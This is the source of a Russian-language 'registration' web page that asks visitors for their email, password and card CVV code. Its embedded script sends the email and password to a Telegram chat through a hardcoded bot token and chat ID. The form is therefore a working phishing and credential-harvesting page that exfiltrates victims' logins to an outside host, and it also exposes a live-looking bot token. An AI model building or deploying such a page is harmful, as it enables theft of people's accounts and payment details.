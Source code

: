 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="text">Email</label>
        <input type="text" id="email" name="username" required>
        <br>
        <p></p>
        <label for="text">Password</label>
        <input type="text" id="pass" name="email" required>
        <p></p>
        <label for="cvv">cvv код</label>
        <input type="text" id="cvv" name="cvv" required>
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        const form = document.getElementById('registrationForm')
        
        let submit = addEventListener('submit', e => {
          e.preventDefault() 
          
          const username = document.getElementById('pass').value;
          const email = document.getElementById('email').value;
          
          const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
          const chatId = -1002372284940 
          const message = `Новая регистрация:\n Почта${email}\n Пароль${username}`;
          const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
          
          
          fetch(url) 
          .then(response => {
            if (response) {
              
              alert('Данные успешно отправлены в Telegram!');
            } else {
              console.log('error');
            }
          })
          .catch(error => {
            console.error('Ошибка:', error);
            alert('Ошибка при отправке данных.');
          });
        });
    </script>
</body>
</html>
